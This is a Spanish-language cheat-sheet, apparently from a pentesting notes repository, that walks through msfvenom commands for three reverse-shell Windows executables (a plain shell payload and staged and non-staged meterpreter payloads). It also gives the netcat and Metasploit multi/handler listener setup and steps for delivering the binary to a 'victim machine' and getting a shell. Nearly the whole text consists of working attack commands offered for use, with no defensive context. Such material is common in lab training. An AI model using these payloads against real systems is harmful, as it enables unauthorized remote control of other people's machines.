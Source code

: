 ## Msfvenom ❮❯

Tags: #Msfvenom #Metasploit #ReverShell #Payloads #Netcat

### Netcat
* Nos sirve para crear un binario malicioso, para despues usar metsploit y obtener la ReverShell para maquinas Windows 

```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp --platform windows -a x64 LHOST=172.0.0.1 LPORT=443 -f exe -o shell.exe 

	# p = Payload
	# f = Formato
	# o = Exportar como 
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port Atacante
	# platform = Plataforma a usar
	# a = Arquitectura
```
Teniendo ese binario malicioso lo debemos de pasar a la maquina victima con un servidor HTTP

* Nos ponemos en escucha por Netcat:
```bash 
❯ rlwrap nc -nlvp 443
```

* Ejecutamos el binario que subimos a Windows y ganamos acceso


### Payload Staged 
* Nos sirve para crear un binario malicioso, para despues usar metsploit y obtener la ReverShell para maquinas Windows 

```bash
❯ msfvenom -p windows/x64/meterpreter/reverse_tcp --platform windows -a x64 LHOST=172.0.0.1 LPORT=443 -f exe -o reverse.exe 

	# p = Payload
	# f = Formato
	# o = Exportar como 
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port Atacante
	# platform = Plataforma a usar
	# a = Arquitectura
```

Teniendo ese binario malicioso lo debemos de pasar a la maquina victima con un servidor HTTP
Ahora en Metasploit hacemos lo siguiente:

* Para verificar la DB del **Metasploit**
```bash 
❯ msfdb run  # Actualiza la DB de Metasploit
```

* Dentro de metasploit colocamos lo siguiente y asi nos pondremos en escucha:
```Metasploit
❯ use exploit/multi/handler
❯ set payload windows/x64/meterpreter/reverse_tcp
❯ show options
❯ set LHOST 172.0.0.1
❯ set LPORT 443
❯ run
```

* Ejecutamos el binario que subimos a Windows

* Dentro de la maquina **Windows**
```bash
❯ getuid    # Nos muestra el usuario del servidor
❯ shell     # Obtenemos uns Shell en Metasploit para poder ejecutar comandos
```



### Payload Non-Staged
* Nos sirve para crear un binario malicioso, para despues usar metsploit y obtener la ReverShell para maquinas Windows 

```bash
❯ msfvenom -p windows/x64/meterpreter_reverse_tcp --platform windows -a x64 LHOST=172.0.0.1 LPORT=443 -f exe -o reverse.exe 

	# p = Payload
	# f = Formato
	# o = Exportar como 
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port Atacante
	# platform = Plataforma a usar
	# a = Arquitectura
```
Teniendo ese binario malicioso lo debemos de pasar a la maquina victima con un servidor HTTP
Ahora en Metasploit hacemos lo siguiente:

* Para verificar la DB del **Metasploit**
```bash 
❯ msfdb run  # Actualiza la DB de Metasploit
```

* Dentro de metasploit colocamos lo siguiente y asi nos pondremos en escucha:
```Metasploit
❯ use exploit/multi/handler
❯ set payload windows/x64/meterpreter_reverse_tcp
❯ show options
❯ set LHOST 172.0.0.1
❯ set LPORT 443
❯ run
```

* Ejecutamos el binario que subimos a Windows

* Dentro de la maquina **Windows**
```bash
❯ getuid    # Nos muestra el usuario del servidor
❯ shell     # Obtenemos uns Shell en Metasploit para poder ejecutar comandos
```